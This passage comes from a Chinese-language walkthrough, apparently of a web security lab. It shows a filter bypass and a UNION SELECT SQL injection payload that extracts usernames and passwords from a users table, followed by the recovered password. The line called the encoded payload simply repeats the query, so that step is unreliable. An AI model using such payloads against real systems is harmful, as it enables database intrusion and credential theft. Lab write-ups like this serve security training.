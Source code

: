 #### 2.18.7.2. **成功绕过**

可以看到这里我们成功绕过了。

![img](assets/%E5%9B%BE%E7%89%87%2089.png) 

### 2.18.8. **获取密码**

这里同样进行编码绕过

```
payload：union select username || ':' || password from users

payload编码： UNION SELECT username || ':' || password FROM users
```

```
密码：b64ddknath9swz8u68fd
```
